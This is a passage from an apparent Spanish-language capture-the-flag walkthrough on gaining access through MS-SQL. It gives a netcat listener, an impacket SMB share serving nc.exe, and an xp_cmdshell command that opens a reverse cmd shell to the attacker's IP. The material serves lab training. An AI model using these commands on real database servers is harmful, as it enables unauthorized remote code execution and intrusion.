 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con MS-SQL {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Compartimos el binario nc.exe

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. Desde el ms-sql

    ```bash
    xp_cmdshell "\\10.10.14.7\smbFolder\nc.exe -e cmd 10.10.14.7 443"
    ```

Ya hemos ganado accesso al systema como el usuario Sarah y podemos ver la flag

